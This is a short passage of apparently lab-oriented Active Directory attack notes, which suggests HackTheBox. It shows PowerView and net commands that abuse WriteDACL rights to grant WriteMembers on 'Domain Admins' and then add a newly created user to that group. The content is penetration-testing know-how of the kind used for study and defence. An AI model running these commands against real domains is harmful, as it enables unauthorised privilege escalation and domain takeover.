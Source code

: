 #### **1. Groups: Add a Member to a Group**

**Scenario:**  
You have `WriteDACL` over a group (e.g., "Domain Admins"). Use it to grant yourself the ability to add members.

**Steps:**

1. **Import PowerView**  
   Import the PowerView module to enable Active Directory manipulation:
   ```powershell
   import-module .\powerview.ps1
   ```

2. **Set Up Credentials**  
   Create a secure credential object for the user with `WriteDACL` privileges:
   ```powershell
   $pass = convertto-securestring 'abc123!' -asplain -force
   $cred = new-object system.management.automation.pscredential('htb\MG', $pass)
   ```

3. **Modify DACL to Grant WriteMembers**  
   Use `Add-DomainObjectAcl` to allow your account to add members to the target group:
   ```powershell
   Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights WriteMembers -PrincipalIdentity MG -Credential $cred
   ```
   - **Why:** This modifies the DACL of the group to give the `MG` user permission to manage its membership.

4. **Add a New Member to the Group**  
   Once the DACL is modified, add a user (e.g., `NewUser`) to the group:
   ```powershell
   net user NewUser SecurePass123! /add /domain
   net group "Domain Admins" NewUser /add /domain
   ```

---
